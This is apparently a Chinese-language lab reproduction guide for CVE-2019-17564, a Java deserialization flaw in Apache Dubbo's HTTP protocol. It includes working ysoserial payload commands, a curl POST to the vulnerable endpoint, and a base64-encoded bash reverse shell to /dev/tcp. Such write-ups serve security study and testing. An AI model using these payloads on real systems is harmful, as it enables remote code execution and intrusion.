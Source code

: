# Apache Dubbo Java反序列化漏洞 CVE-2019-17564

## 漏洞描述

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。RPC，全称为Remote Procedure Call，即远程过程调用，它是一个计算机通信协议。它允许像调用本地服务一样调用远程服务。

Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞影响

```
Apache Dubbo 2.7.4及以前版本
```

Apache Dubbo 2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

## 环境搭建

执行如下命令启动一个Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`，服务器默认会返回500错误。

## 漏洞复现

利用该漏洞需要先知道目标RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub对外开放了8080端口和2181端口，其中2181即为Zookeeper的端口，本地下载[Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台Zookeeper服务器。

依次执行以下命令下载、解压、使用zkCli工具：

```
$ wget https://dlcdn.apache.org/zookeeper/zookeeper-3.7.0/apache-zookeeper-3.7.0-bin.tar.gz
$ tar xvf apache-zookeeper-3.7.0-bin.tar.gz
$ cd apache-zookeeper-3.7.0-bin/bin
$ ./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用`ls`即可列出其中所有节点，包括Dubbo相关的配置：

![image-20220222214720363](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222147467.png)

获取到RPC接口名为`org.vulhub.api.CalcService`。直接用ysoserial生成CommonsCollections6的Payload作为POST Body发送到`http://your-ip:8080/org.vulhub.api.CalcService`即可触发反序列化漏洞：

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "touch /tmp/awesome_poc" > 1.poc

$ curl -XPOST --data-binary @1.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222220814317](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222208473.png)

进入docker，命令`touch /tmp/awesome_poc`执行成功：

![image-20220222220908304](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222209355.png)

反弹shell：

```
bash -i >& /dev/tcp/192.168.174.128/9999 0>&1 
# base64编码
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx
```

```
$ java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" > shell.poc

$ curl -XPOST --data-binary @shell.poc http://192.168.174.128:8080/org.vulhub.api.CalcService
```

![image-20220222221020948](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202222210040.png)